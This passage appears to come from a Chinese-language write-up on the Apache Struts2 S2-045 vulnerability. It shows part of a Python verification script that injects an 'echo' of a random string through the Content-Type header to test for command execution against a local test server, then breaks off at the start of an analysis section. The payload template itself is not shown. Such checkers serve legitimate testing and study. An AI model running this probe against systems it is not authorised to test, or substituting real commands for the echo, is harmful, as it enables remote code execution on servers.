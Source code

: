 ```python

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:
        :return str True or False
        """

        try:
            self.check_payload = self.payload.replace('cmd_data', 'echo ' + self.capta)
            self.headers['Content-Type'] = self.check_payload
            check_req = requests.get(self.url, headers = self.headers)
            if self.capta in check_req.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_045 = S2_045_BaseVerify('http://localhost:8080/s2_045_war_exploded/Upload.action')
    print(S2_045.run())
```

## 漏洞分析

首先Struts2的运行流程是
